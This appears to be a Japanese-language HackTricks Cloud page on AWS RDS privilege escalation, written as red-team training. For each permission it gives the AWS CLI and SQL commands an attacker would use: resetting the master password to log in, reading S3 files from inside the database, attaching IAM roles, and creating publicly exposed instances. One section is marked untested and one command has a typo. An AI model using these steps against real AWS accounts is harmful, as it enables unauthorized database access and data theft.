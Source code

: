 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - リレーショナルデータベースサービス

RDSに関する詳細情報は以下を確認してください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

その権限を持つ攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを行うことができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** を実行すると、**`rdsadmin`** というデータベースが見つかる場合、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を見て確認できます:
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースは**S3に対する何らかのアクセス権を持っている**と考えることができます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスターに関連付けられたIAMロールがあるかどうか**を確認できます。もしあれば、そのデータベースは**他のAWSサービスにアクセスするために準備されている**と考えることができます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースがどのような追加アクセスを持っているかを**推測**することができます。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**を持っていれば、次のコマンドを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **は S3 にアクセスするためにパラメータグループの変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 内で **`SELECT User, Host FROM mysql.user;`** クエリを実行し、**`rdsadmin`** というユーザーが存在する場合、あなたは **AWS RDS mysql db** 内にいると考えることができます。
{% endhint %}

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースは S3 データにアクセスする準備ができていると考えられます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連するロール** があるかどうかを確認できます。これは通常、AWS サービスへのアクセスを意味します。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` および `iam:PassRole` の権限を持つ攻撃者は、**既存の RDS インスタンスに指定されたロールを追加することができます**。これにより、攻撃者は **機密データにアクセスしたり**、インスタンス内のデータを変更したりすることが可能になります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。\
一部のDBは、Mysqlのように、パラメータグループでロールARNを指定する必要があるなど、追加の設定が必要であることに注意してください。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は**既存のクラスター内に新しいインスタンス**を作成でき、**IAMロール**が付与されている場合があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開できる可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールを添付した新しい RDS インスタンスを作成することができます**。攻撃者はその後、**機密データにアクセスしたり、インスタンス内のデータを変更したりする可能性があります**。

{% hint style="warning" %}
添付するロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルはあなたのアカウントに存在する必要があります。
* プロファイルは、Amazon EC2 が引き受ける権限を持つ IAM ロールを持っている必要があります。
* インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

{% hint style="warning" %}
DBインスタンスは、これのためにクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
